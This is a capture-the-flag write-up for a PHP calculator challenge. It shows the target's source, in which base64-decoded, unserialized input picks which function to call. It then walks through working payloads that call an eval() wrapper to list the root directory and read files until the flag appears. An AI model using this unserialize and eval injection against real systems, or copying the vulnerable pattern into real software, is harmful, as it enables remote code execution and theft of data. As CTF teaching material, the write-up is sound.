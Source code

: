 ## Overview
After opening the website, we are greeted with a simple calculator (obviously). Lets input ```1 + 2``` to the textbox.

```
Result:
1 + 2 = 3
```
As expected, 1 + 2 does equal to 3. The interesting part of this is the url. 

```103.185.38.238:17227/?input=YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30=```

It has some sort of encrypted input query that I assumed is base64. Let's try to decode the input with this script.

```python
import base64

query = "YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30="
query_b64 = base64.b64decode(query)
print(query_b64.decode("ascii"))
```
After running the script, we got this very interesting data.

```a:3:{i:0;s:3:"sum";i:1;s:1:"1";i:2;s:1:"2";}```

Let's dissect this data.

```
a:3  # Array of length 3
i:0 # Index of the array
s:3 # Size of this index's data
"sum" # The data on this index
```

Okay, that's very insightful. But, this is a web exploitation challenge. Let's look at the PHP of this website since this challenge is tagged PHP.

```php
<?php
function format_error($expre) {
    return "<p><b>Format error:</b> the input is given in wrong format!</p>";
}

function opp_error($expre) {
    return "<p><b>Operator error:</b> operator for ".$expre." is not available!</p>";
}

function sum($a, $b) {
    $result = strval(intval($a) + intval($b));
    return "<p><b>Result:</b><br>".$a." + ".$b." = ".$result."</p>";
}

function sub($a, $b) {
    $result = strval(intval($a) - intval($b));
    return "<p><b>Result:</b><br>".$a." - ".$b." = ".$result."</p>";
}

function mul($a, $b) {
    $result = strval(intval($a) * intval($b));
    return "<p><b>Result:</b><br>".$a." * ".$b." = ".$result."</p>";
}

function div($a, $b) {
    $result = strval(intval($a) / intval($b));
    return "<p><b>Result:</b><br>".$a." / ".$b." = ".$result."</p>";
}

function evalit($code) {
    return eval($code);
}

if ($_SERVER["REQUEST_METHOD"] == "GET") {
    if (!empty($_GET["input"])) {
        $decoded = base64_decode($_GET["input"]);
        $out = unserialize($decoded);
        if ($out[2] != null) {
            $view = $out[0]($out[1], $out[2]);
            echo $view;
        }
        else {
            $view = $out[0]($out[1]);
            echo $view;
        }
    }
}

?>
```

The ```evalit``` function is definitely the key, since it can allow us to run code. But how can we input something to run the ```evalit``` function?

The ```sum``` function and other math functions have 2 arguments. So to run ```evalit```, we need to find other functions with only one argument. The easiest one to get is probably the ```format_error``` function. 

## Solution
Let's input random stuff and get the input query!

```
a:2:{i:0;s:12:"format_error";i:1;s:4:"asdf";}
```

Woah, the function's name is literally there! So let's just change the fuction name and input and let's see if it works!

```
a:2:{i:0;s:6:"evalit";i:1;s:20:"echo "Hello world!";";}
```

Next step is to encode it to base64 and put it in the url!

```
103.185.38.238:17227/?input=YToyOntpOjA7czo2OiJldmFsaXQiO2k6MTtzOjIwOiJlY2hvICJIZWxsbyB3b3JsZCEiOyI7fQ==
```

And voila! The hello world is there. Now what? Well, the description said there is some interesting stuff in root. So let's go there!
Let's scan the root directory using the ```scandir()``` syntax.

To make this easier, I created a python script to generate the url.

```python
import base64

payload = "echo join(', ', scandir('/'));"
query = "a:2:{i:0;s:6:\"evalit\";i:1;s:" + str(len(payload)) + ":\"" + payload + "\";}"
query_b64 = query.encode("ascii")
query_b64 = base64.b64encode(query_b64)
print(query)
print("103.185.38.238:17227/?input=" + query_b64.decode("ascii"))
```

After that, let's look at the output!

```., .., .dockerenv, Hey.txt, Heyhey.txt, Heyheyhey.txt, Heyheyheyhey.txt, bin, boot, dev, etc, home, lib, lib64, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var```

We see some txt files in there. It could be the flag! Let's try one of them.
Let's change the payload.

```
payload = "echo file_get_contents('/Hey.txt');"
Output: Sorry, wrong guy :v 
```

Bruh, let's try the next one.

```
payload = "echo file_get_contents('/Heyhey.txt');"
Output: Hai! Hai! (^_^)  
```

Still not it, the next one maybe?

```
payload = "echo file_get_contents('/Heyheyhey.txt');"
Output: COMPFEST14{welcome_to_the_root} 
```

And just like that, the flag is found!

##### Solved by kawijayaa
